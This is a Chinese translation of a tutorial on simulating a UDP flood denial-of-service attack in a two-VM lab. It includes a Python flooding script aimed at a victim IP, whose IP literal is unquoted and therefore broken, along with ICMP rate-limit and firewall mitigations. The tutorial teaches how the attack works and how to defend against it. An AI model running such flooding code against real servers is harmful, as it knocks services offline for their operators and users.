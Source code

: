 > * 原文地址：[How to simulate a UDP Flood DoS attack on your computer](https://levelup.gitconnected.com/how-to-simulate-a-udp-flood-dos-attack-on-your-computer-863b40c44f3f)
> * 原文作者：[RiccardoM](https://medium.com/@riccardom)
> * 译文出自：[掘金翻译计划](https://github.com/xitu/gold-miner)
> * 本文永久链接：[https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md](https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md)
> * 译者：[chaingangway](https://github.com/chaingangway)
> * 校对者：[shixi-li](https://github.com/shixi-li)、[司徒公子](https://github.com/todaycoder001)

# 如何在自己的计算机上模拟 UDP Flood DoS 攻击

![](https://cdn-images-1.medium.com/max/12048/0*5IXgILaawtazZ2Tx)

**免责声明：以下教程仅用于教学目的。您只能在自己的计算机上模拟攻击**

UDP 洪水攻击能让服务器拒绝服务，攻击者向目标服务器发送大量 **UDP**（用户数据报文协议）数据包，以压垮服务器处理和响应传入流量的能力。

攻击者将数据包发送到服务器 IP 地址的随机端口。当服务器收到数据包时：

1. 检查是否有程序监听该端口。
2. 如果发现没有程序监听；大部分情况都是这样，因为目标端口是随机的。
3. 返回 **ICMP Destination Unreachable** 的数据包。

攻击者的 IP 地址可以伪装，以防止 ICMP 响应包的身份识别和自身资源饱和。

## 初始化

为了模拟这种攻击，您需要两台虚拟机。网卡必须配置为在子网中并且有自己的地址。我使用的是 VirtualBox 中非常轻量级的两个 BunsenLabs 实例。它们以桥接模式配置网卡。下面是对每个虚拟机的要求：

* **攻击者**的虚拟机需要安装 python3
* **目标服务器**的虚拟机需要安装 python 3.7 及以上版本

#### 服务器端配置

我们将运行一个简单的 HTTP 服务器，以验证服务器受到攻击时性能是否下降。下面是用 Python 编写的服务器端程序。

```py
import sys
import time
import random
from http.server import ThreadingHTTPServer, BaseHTTPRequestHandler

class DefaultHTTPHandler(BaseHTTPRequestHandler):

  def do_GET(self):
    self.send_response(200)
    self.send_header('Content-type', 'text/plain')
    self.send_header("Cache-Control", "no-cache")
    self.end_headers()

    n = random.randint(1e7,1e8)
    self.wfile.write((("{} is " + ("" if is_prime(n) else "not ") + "a prime number").format(n)).encode("utf-8"))

def base_http_server_start(address="0.0.0.0", port=80):
    handler = DefaultHTTPHandler
    address = (address, port)
    server = ThreadingHTTPServer(address, handler, bind_and_activate=False)
    server.server_bind()
    server.server_activate()
    server.serve_forever()

def is_prime(num):
    res = True
    for i in range(2, num - 1):
        if num % i == 0:
            res = False
    return res

if __name__ == '__main__':
    print("Starting HTTP server on port 80")
    base_http_server_start()
```

通过地址 localhost: 80 访问服务器。在这个服务器程序中，我们生成了一个非常大的随机数，并故意用非常低效的方法检验它是否为质数。通过这种机制，我们在重新加载浏览器页面时就能大致估计服务器的响应时间。响应时间因硬件的计算能力而异，平均值在 5-10 秒左右。

#### 攻击脚本

我们用下面的 Python 脚本执行攻击，这里用到了 socket。

```py
import time
import socket
import random
import sys

victim_ip = 192.168.1.10
duration = 60 # in seconds

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

msg = bytes(random.getrandbits(10))
timeout = time.time() + duration
sent_packets = 0

while time.time() < timeout:
  victim_port = random.randint(1025, 65356)
  sock.sendto(msg, (victim_ip, victim_port))
  sent_packets += 1
```

在脚本中，我们可以指定目标的 IP 地址和攻击的持续时间。如上所述，每次发送数据包时，我们都会选择一个不同的端口。

## 攻击

要执行攻击，我们首先需要运行服务器并使用上述方法检查其性能。接下来，在攻击者的虚拟机中，运行执行攻击的脚本。当服务器受到攻击时，由于其忙于处理传入流量并返回 ICMP Destination Unreachable 数据包，我们可以看到其 CPU 使用率在增加。

然后，我们来重新加载浏览器页面并计算服务器的响应时间。很显然看到服务器性能已急剧下降。响应时间至少应为正常情况下的两倍。

## 缓解

#### Linux 设置

想缓解 UDP 洪水攻击很难。但是我们可以更改操作系统每秒发送的 ICMP 数据包的数量。我们在Linux中使用这两个命令，例如：

```bash
sudo sysctl -w net.ipv4.icmp_ratelimit=0
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1000
```

第一条命令让 ICMP 响应的速率仅能通过第二条命令的参数来设置。因此，在这种情况下，使用第二个命令，我们就能设置 ICMP 消息的速率为每秒 1000 条 。

现在我们来验证这一点，对服务器持续攻击 10 秒钟，并在服务器的虚拟机上使用 Wireshark 来拦截响应的 ICMP 数据包，观察数据包的数量是否符合预期。因为我们将速率设置为每秒 1000 个数据包，所以可以看到在 10 秒内大约发送了 10000 个 ICMP 数据包，这是正确的。

![10.000 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*Kb3xNdtJxxD0L87W9i3IJg.png)

我们可以尝试更改此参数，并使用 Wireshark 检查 10 秒钟内发送的数据包数量如何变化。例如，设置速率为每秒 1 条消息，我们可以捕获大约 10 条消息。

```bash
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1
```

![10 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*3MVskJJFtm4wKB4kT5GiYg.png)

为这些参数设置最佳值是个难点。因为最佳值取决于我们的硬件，应用程序以及与服务器交互的平均流量。如果我们减少每秒发送的响应数，虽然能减少服务器的负载，但这只是丢弃了更多传入的请求，而没有发送 ICMP 响应包。通过减少参数的值，我们可能会拒绝合法的请求，而没有处理真实用户的流量，这会有更大的风险。因此，我们要有一种折衷的办法。

#### 防火墙

我们还可以使用防火墙来抵御这种攻击。防火墙可以在 UDP 数据包到达服务器之前将其阻止。这样就不会耗费服务器资源。但是，防火墙本身也容易受到此类攻击：它们必须处理传入的流量，并且可能在攻击过程中成为瓶颈。此外，如果我们使用的是有状态的防火墙，虽然可以轻松地阻止来自同一 IP 地址的攻击，但是如果攻击者使用了 IP 欺骗，防火墙的状态表可能会塞满，可用内存将被耗尽。因此，防火墙也不是终极解决方案。

## 结论

在本文中，我们通过几个简单的步骤模拟攻击，来帮助我们更好地了解其工作原理。您还可以更详细地研究应对攻击的缓解措施，尝试使用不同的参数来配置服务器。这个过程也很有趣，因为这是一种简单而强大的攻击：如上所述，我们很难采取有效的对策来阻止它。如果您对更复杂的基于 UDP 的攻击感兴趣，请查看[这个](https://levelup.gitconnected.com/how-to-simulate-a-ntp-amplification-dos-attack-on-your-computer-72b3c6f60eb7)故事，在此我解释了如何利用 NTP 服务器来扩大流量，让受攻击的服务器带宽饱和。

> 如果发现译文存在错误或其他需要改进的地方，欢迎到 [掘金翻译计划](https://github.com/xitu/gold-miner) 对译文进行修改并 PR，也可获得相应奖励积分。文章开头的 **本文永久链接** 即为本文在 GitHub 上的 MarkDown 链接。

---

> [掘金翻译计划](https://github.com/xitu/gold-miner) 是一个翻译优质互联网技术文章的社区，文章来源为 [掘金](https://juejin.im) 上的英文分享文章。内容覆盖 [Android](https://github.com/xitu/gold-miner#android)、[iOS](https://github.com/xitu/gold-miner#ios)、[前端](https://github.com/xitu/gold-miner#前端)、[后端](https://github.com/xitu/gold-miner#后端)、[区块链](https://github.com/xitu/gold-miner#区块链)、[产品](https://github.com/xitu/gold-miner#产品)、[设计](https://github.com/xitu/gold-miner#设计)、[人工智能](https://github.com/xitu/gold-miner#人工智能)等领域，想要查看更多优质译文请持续关注 [掘金翻译计划](https://github.com/xitu/gold-miner)、[官方微博](http://weibo.com/juejinfanyi)、[知乎专栏](https://zhuanlan.zhihu.com/juejinfanyi)。
